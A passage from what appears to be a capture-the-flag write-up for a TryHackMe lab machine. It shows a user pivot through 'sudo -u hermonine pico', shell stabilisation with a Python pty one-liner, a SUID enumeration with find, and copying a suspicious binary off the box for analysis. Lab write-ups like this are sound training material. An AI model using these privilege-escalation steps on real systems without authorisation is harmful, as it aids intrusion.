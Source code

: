 <p align="center"><img src ="./Screenshots/4.png" width ="340"></p>

```bash
harry@hogwartz-castle:~$ sudo -u hermonine /usr/bin/pico
```
We have a shell as hermonine user. Stabalize it using python one-liner and cat out user2.txt.
```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
hermonine@hogwartz-castle:/home/hermonine$ ls
user2.txt
hermonine@hogwartz-castle:/home/hermonine$cat user2.txt
RME{********************************}
```
Now lets check for any access to root executable with hermonine user.
```bash
hermonine@hogwartz-castle:/home/hermonine$ find / -perm -u=s 2>/dev/null

/srv/time-turner/swagger
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newuidmap
/usr/bin/traceroute6.iputils
...
/bin/umount
/bin/fusermount
/bin/su
/bin/ping
/bin/mount
```
Nothing stands out except ```/srv/time-turner/swagger``` rest all are defaults.
Looks like its a binary file lets copy it to our machine and analyse it.
```bash
$ scp kali@10.8.155.126:/home/kali/Desktop/THM/Rooms/MadeyeCastle/ srv/time-turner/swagger
$ strings swagger .txt
...

_ITM_registerTMCloneTable
AWAVI
AUATL
[]A\A]A^A_
```